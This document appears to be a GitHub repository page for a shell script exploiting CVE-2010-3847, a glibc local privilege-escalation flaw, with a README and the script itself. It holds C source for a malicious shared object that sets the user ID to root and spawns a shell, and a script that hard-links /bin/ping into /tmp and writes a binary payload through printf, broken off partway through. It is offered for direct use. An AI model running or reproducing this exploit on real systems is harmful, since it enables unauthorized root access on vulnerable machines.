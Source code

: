 INFO
----

    CVE-2010-3847 script
    ====================
    Meant to automate the exploit discussed in
    [http://marc.info/?l=full-disclosure&m=128776663124692&w=2].  Tested on
    CentOS 5 x86.

    The DSO it outputs is compiled from the following code:
    ```c
    #include <sys/types.h>
    #include <unistd.h>
    #include <stdlib.h>
    void __attribute__((constructor)) init()
    {
       setuid(0);
       system("/bin/bash");
    }
    ```

    Usage
    -----
    Download it, put it somewhere executable, and run it.

    Gotchas
    -------
    `/tmp` and wherever `ping` is have to be on the same filesystem.  If not,
    adjust the paths accordingly.

CVE-2010-3847.sh
----------------

    #!/bin/sh

    set -e

    echo "Opening file descriptor 3 to /tmp/.exploit/target"
    mkdir /tmp/.exploit
    ln /bin/ping /tmp/.exploit/target
    exec 3< /tmp/.exploit/target
    rm -rf /tmp/.exploit/
    ls -l /proc/self/fd/3

    echo "Writing malicious DSO to /tmp/.exploit"
    printf "\177\105\114\106\001\001\001\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\003\000\003\000\001\000\000\000\060\003\000\000\064\000\000\000" >>/tmp/.exploit
    printf "\150\007\000\000\000\000\000\000\064\000\040\000\004\000\050\000" >>/tmp/.exploit
    printf "\032\000\027\000\001\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\260\004\000\000\260\004\000\000\005\000\000\000" >>/tmp/.exploit
    printf "\000\020\000\000\001\000\000\000\260\004\000\000\260\024\000\000" >>/tmp/.exploit
    printf "\260\024\000\000\004\001\000\000\014\001\000\000\006\000\000\000" >>/tmp/.exploit
    printf "\000\020\000\000\002\000\000\000\314\004\000\000\314\024\000\000" >>/tmp/.exploit
    printf "\314\024\000\000\300\000\000\000\300\000\000\000\006\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\121\345\164\144\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\000\000\000\000\006\000\000\000" >>/tmp/.exploit
    printf "\004\000\000\000\003\000\000\000\006\000\000\000\002\000\000\000" >>/tmp/.exploit
    printf "\006\000\000\000\210\000\040\001\000\304\120\013\006\000\000\000" >>/tmp/.exploit
    printf "\010\000\000\000\013\000\000\000\272\343\222\174\103\105\325\354" >>/tmp/.exploit
    printf "\330\161\130\034\070\205\230\174\271\215\361\016\353\323\357\016" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\001\000\000\000\000\000\000\000\000\000\000\000\040\000\000\000" >>/tmp/.exploit
    printf "\053\000\000\000\000\000\000\000\000\000\000\000\040\000\000\000" >>/tmp/.exploit
    printf "\106\000\000\000\000\000\000\000\175\000\000\000\022\000\000\000" >>/tmp/.exploit
    printf "\077\000\000\000\000\000\000\000\145\000\000\000\022\000\000\000" >>/tmp/.exploit
    printf "\034\000\000\000\000\000\000\000\132\001\000\000\042\000\000\000" >>/tmp/.exploit
    printf "\152\000\000\000\274\025\000\000\000\000\000\000\020\000\361\377" >>/tmp/.exploit